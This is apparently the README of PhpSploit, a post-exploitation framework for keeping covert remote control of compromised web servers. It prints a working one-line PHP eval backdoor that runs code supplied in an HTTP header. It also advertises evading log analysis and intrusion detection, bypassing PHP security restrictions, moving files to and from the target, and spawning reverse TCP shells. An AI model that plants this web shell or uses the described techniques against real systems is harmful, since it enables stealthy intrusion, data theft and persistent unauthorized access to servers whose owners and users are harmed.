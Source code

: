 ### PhpSploit: *Advanced post-exploitation framework* ###

PhpSploit is a **remote control** framework, aiming to provide a **stealth**
interactive shell-like connection over HTTP between client and web server.
It is a post-exploitation tool capable to maintain access to a
compromised web server for **privilege escalation** purposes.

#### Overview ####

The obfuscated communication is accomplished using HTTP headers under
valid client HTTP requests and relative web server's responses.

The physical backdoor is configurable and really tiny for furtivity purposes:
```php
<? @eval($_SERVER['HTTP_PHPSPL01T']) ?>
```

#### Features ####

- Nearly invisible by log analysis and NIDS signature detection
- Safe-mode and common PHP security restrictions bypass
- More than 20 plugins to automate post-exploitation tasks:
    - Run commands and browse filesystem, bypassing PHP security restrictions
    - Upload/Download files between client and target
    - Edit remote files through local text editor
    - Run SQL console on target system
    - Spawn reverse TCP shells
- Communications are hidden in HTTP Headers
- Loaded payloads are obfuscated to bypass NIDS
- Multi-request support for large payloads
- Highly configurable through dynamic settings engine
- HTTP/HTTPS Proxy support
- And even more...

#### Example #####
---
![Image](http://s22.postimg.org/b0uvq3klb/Untitled.png)
